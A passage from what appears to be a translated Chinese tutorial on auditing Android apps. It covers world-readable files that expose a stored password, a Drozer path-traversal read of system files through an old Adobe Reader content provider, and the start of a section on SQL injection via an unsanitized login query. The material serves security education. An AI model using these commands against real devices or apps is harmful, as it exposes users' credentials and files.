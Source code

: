 如果我们在这里执行一个简单的`ls -l`，就可以看到文件和文件夹的文件权限

```shell
ls -l /data/data/com.aditya.example/files/userinfo.xml 
-rw-rw-rw- app_200  app_200     22034 2013-11-07 00:01 userinfo.xml
```

这里我们可以使用`find`来搜索权限。

```shell
find /data/data/ -perm [permissions value]
```

如果我们执行`cat userinfo.xml`，它储存了应用的用户的用户名和密码。

```shell
grep 'password' /data/data/com.aditya.example/files/userinfo.xml 
<password>mysecretpassword</password>
```

这意味着任何其他应用程序也可以查看和窃取用户的机密登录凭据。 可以通过在开发应用程序时指定正确的文件权限，以及一起计算密码与盐的散列来避免此漏洞。

### 目录遍历或本地文件包含漏洞

顾名思义，应用程序中的路径遍历漏洞允许攻击者使用漏洞应用程序的供应器读取其他系统文件。

此漏洞也可以使用我们之前讨论的工具 Drozer 进行检查。 在这里，我们用例子来说明由 Seafastian Guerrero 发现的 Adobe Reader Android 应用程序漏洞（`http://blog.seguesec.com/2012/09/path-traversal-vulnerability-on-adobe-reader-android-application`）。 此漏洞存在于 Adobe Reader 10.3.1 中，并在以后的版本中进行了修补。 你可以从`http://androiddrawer.com`下载各种 Android 应用程序的旧版本。

我们将启动 Drozer，并运行`app.provider.finduri`模块来查找内容供应器 URI。

```shell
dz> run app.provider.finduri com.adobe.reader
Scanning com.adobe.reader...
content://com.adobe.reader.fileprovider/
content://com.adobe.reader.fileprovider
```

一旦我们找到了 URI，我们现在可以使用`app.provider.read`搜索并利用本地文件包含漏洞。 在这里，我尝试从系统中读取一些文件，如`/etc/hosts`和`/proc/cpuinfo`，它们默认存在于所有的 Android 实例中，因为它是基于 Linux 的文件系统。

```shell
dz> run app.provider.read content://com.adobe.reader.fileprovider/../../../../etc/hosts 
127.0.0.1           localhost
```

正如我们在下面的屏幕截图中看到的，我们已经成功地使用 Adobe Reader 漏洞内容供应器读取了 Android 文件系统中的文件。

![img](03.Android 应用的逆向和审计.assets/3-5-1.jpg)

### 客户端注入攻击

客户端攻击通常发生在应用程序未检查用户输入的时候。 例如，在对 SQLite 数据库的查询期间，应用程序正在解析用户输入，因为它位于查询语句中。

让我们举一个应用程序的示例，它检查本地 SQLite 数据库，来根据登录凭据验证用户。 因此，当用户提供用户名和密码时，正在运行的查询将如下所示：

```sql
SELECT * FROM 'users' where username='user-input-username' and password='user-input-password'
```
